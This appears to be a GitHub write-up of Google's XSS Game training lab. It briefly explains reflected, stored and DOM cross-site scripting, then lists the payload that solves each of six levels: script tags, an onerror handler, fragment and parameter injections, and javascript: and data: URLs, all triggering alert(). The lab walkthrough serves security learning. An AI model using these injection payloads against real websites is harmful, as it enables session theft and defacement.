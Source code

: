 # XSS Game Appspot 

![image](https://user-images.githubusercontent.com/60937657/209459481-f9fa5664-0a05-4402-8f99-2abe37ffd64d.png)

Link of XSS GAME AREA - https://xss-game.appspot.com/

**Cross-Site Scripting (XSS)** is one of the most popular and vulnerable attacks which is known by every advanced tester. It is considered one of the riskiest attacks for web applications and can bring harmful consequences too.

XSS is often compared with similar client-side attacks, as client-side languages are mostly being used during this attack. However, an XSS attack is considered riskier, because of its ability to damage even less vulnerable technologies.

## Types of Cross Site Scripting Attacks

The prime purpose of performing an XSS attack is to steal another person’s identity. As mentioned, it may be cookies, session tokens, etc. XSS also may be used to display faked pages or forms for the victim. However, this attack can be performed in several ways.

This attack is divided into three main categories as shown below:

1) Reflected XSS – This attack occurs, when a malicious script is not being saved on the webserver but reflected in the website’s results.
2) Stored XSS – This attack occurs when a malicious script is being saved on the webserver permanently.
3) DOM – This occurs, when the DOM environment is being changed, but the code remains the same.


## Level 1 


![image](https://user-images.githubusercontent.com/60937657/209504143-554f58db-6d74-474b-b20f-9f6d1fd4fb8b.png)

```
<script>alert()</script>
```

![image](https://user-images.githubusercontent.com/60937657/209503948-bd3663c3-59d9-4516-a762-96af44f6294d.png)


## Level 2 


![image](https://user-images.githubusercontent.com/60937657/209503755-05c0d614-3dda-4dc7-b855-a42d5b9f4cee.png)

```
<img src="http://inexist.ent"
onerror="javascript:alert(1)"/>
```

![image](https://user-images.githubusercontent.com/60937657/209503869-0f536c23-f2a7-466c-bb0d-101e4a695477.png)


## Level 3 


![image](https://user-images.githubusercontent.com/60937657/209504304-c8f8484f-0c54-4673-a6d0-c403a0591670.png)

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```

![image](https://user-images.githubusercontent.com/60937657/209508407-5e598764-ee7e-478e-a1f6-34245fc3cf76.png)


## Level 4 


![image](https://user-images.githubusercontent.com/60937657/209508468-2e519c5c-0e26-44a7-ad53-a39ff7e25a75.png)

```
timer=');alert('xss
```

![image](https://user-images.githubusercontent.com/60937657/209509468-678f2ef2-8aec-4e88-a381-c7f05e2ac147.png)


## Level 5 


![image](https://user-images.githubusercontent.com/60937657/209523525-15f14c6c-d4e3-4853-8089-57d5614cba2d.png)

Command to be inserted in browser URL section;
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
Command to be inserted in email section;
```
signup?next=javascript:alert(1)
```

![image](https://user-images.githubusercontent.com/60937657/209523829-c4040efd-b95f-487d-a5de-41f4bac8f2fd.png)


## Level 6 


![image](https://user-images.githubusercontent.com/60937657/209524240-5d45e843-c4c8-432a-bb60-fe1f9a151db1.png)

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

![image](https://user-images.githubusercontent.com/60937657/209524546-077771d4-2e74-4a4c-a1dc-e085f8452bd0.png)

**Game Over** 

![image](https://user-images.githubusercontent.com/60937657/209524778-7a732523-738f-4b49-9e77-68adc0fbad9d.png)

**To Learn More Click On This Link(Trust me its secure !!!! -_-)**  https://bughunters.google.com/learn
